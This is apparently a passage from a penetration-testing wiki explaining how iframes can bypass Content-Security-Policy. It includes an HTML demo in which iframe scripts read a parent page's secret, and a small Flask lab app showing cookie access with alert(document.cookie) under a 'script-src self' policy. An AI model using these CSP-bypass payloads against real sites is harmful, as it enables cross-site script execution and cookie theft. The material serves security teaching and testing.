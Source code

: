 ### Iframes with CSP [](#iframes_with_csp_40)

> [!TIP]
> Please, note how in the following bypasses the response to the iframed page doesn't contain any CSP header that prevents JS execution.

The `self` value of `script-src` won’t allow the execution of the JS code using the `data:` protocol or the `srcdoc` attribute.\
However, even the `none` value of the CSP will allow the execution of the iframes that put a URL (complete or just the path) in the `src` attribute.\
Therefore it’s possible to bypass the CSP of a page with:

```html
<html>
  <head>
    <meta
      http-equiv="Content-Security-Policy"
      content="script-src 'sha256-iF/bMbiFXal+AAl9tF8N6+KagNWdMlnhLqWkjAocLsk'" />
  </head>
  <script>
    var secret = "31337s3cr37t"
  </script>
  <iframe id="if1" src="child.html"></iframe>
  <iframe id="if2" src="http://127.0.1.1:8000/child.html"></iframe>
  <iframe
    id="if3"
    srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
  <iframe
    id="if4"
    src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>
</html>
```

Note how the **previous CSP only permits the execution of the inline script**.\
However, **only `if1` and `if2` scripts are going to be executed but only `if1` will be able to access the parent secret**.

![[../../images/image (372).png]]

Therefore, it’s possible to **bypass a CSP if you can upload a JS file to the server and load it via iframe even with `script-src 'none'`**. This can **potentially be also done abusing a same-site JSONP endpoint**.

You can test this with the following scenario were a cookie is stolen even with `script-src 'none'`. Just run the application and access it with your browser:

```python
import flask
from flask import Flask
app = Flask(__name__)

@app.route("/")
def index():
    resp = flask.Response('<html><iframe id="if1" src="cookie_s.html"></iframe></html>')
    resp.headers['Content-Security-Policy'] = "script-src 'self'"
    resp.headers['Set-Cookie'] = 'secret=THISISMYSECRET'
    return resp

@app.route("/cookie_s.html")
def cookie_s():
    return "<script>alert(document.cookie)</script>"

if __name__ == "__main__":
    app.run()
```
